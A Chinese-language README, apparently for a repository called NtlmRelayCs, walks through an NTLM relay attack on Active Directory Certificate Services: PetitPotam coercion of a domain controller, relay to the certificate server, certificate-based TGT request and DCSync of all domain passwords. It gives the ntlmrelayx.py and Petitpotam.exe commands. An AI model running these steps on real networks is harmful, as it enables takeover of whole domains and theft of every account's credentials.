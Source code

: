 # NtlmRelayCs  
## 简述  
在大型企业的内网当中通常会内置证书服务器，在这些服务器默认部署的时候会开放NTLM的认证方式。通过证书验证的方式我们可以获取到票据，域控服务器主机的权限是能够DCsync的（回忆zerologon）

在今年的八月微软出了大量的漏洞，可见其中的EFS接口，类似之前的petitpotam    
``` 
certutil 即可查看  
```
## 造成影响  
1、DcSync拿下域控的密码  

## 攻击思路 
攻击思路就出现了  
1. 首先创建一个ntlm-relay服务器，将进行中继的服务选择为域当中的证书服务器 
2. 我们可以通过MS-EFSRPC接口使域控向我们进行进行ntlm认证
3. 当域控的认证消息中继到证书服务器之后，证书服务器就会颁发一个证书给我们 
4. 使用证书向kdc即可获取域控机器账户的TGT票据
5. 通过域控机器账户的TGT票据就可以dcsync从而获取整个域当中的账户密码

## 攻击实践  
下面进行实践我们的攻击步骤

1、首先创建一个ntlm-relay服务，将进行中继的服务选择为域当中的证书服务器 
```
ntlmrelayx.py -t http://cert_ip/certsrv/certfnsh.asp --adcs -debug --templat Domain Controller
```
2、使用Petitpotam的程序进行触发 MS-EFSRPC接口
```
Petitpotam.exe mitm_server dc_ip  
```
![20211030181540](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030181540.png)
 

3、当域控的认证消息中继到证书服务器之后，证书服务器就会颁发一个证书给我们 
![20211030181712](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030181712.png)

至此，我们获取到了域控制器机器账户的证书  


4、使用证书向kdc即可获取域控机器账户的TGT票据

![20211030181737](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030181737.png)

至此获取到TGT的票据  
![20211030181813](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030181813.png)

5、通过域控机器账户的TGT票据就可以dcsync从而获取整个域当中的账户密码

![20211030181923](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030181923.png)

## refer  
[Certified specterops.io白皮书 ](https://posts.specterops.io/certified-pre-owned-d95910965cd2)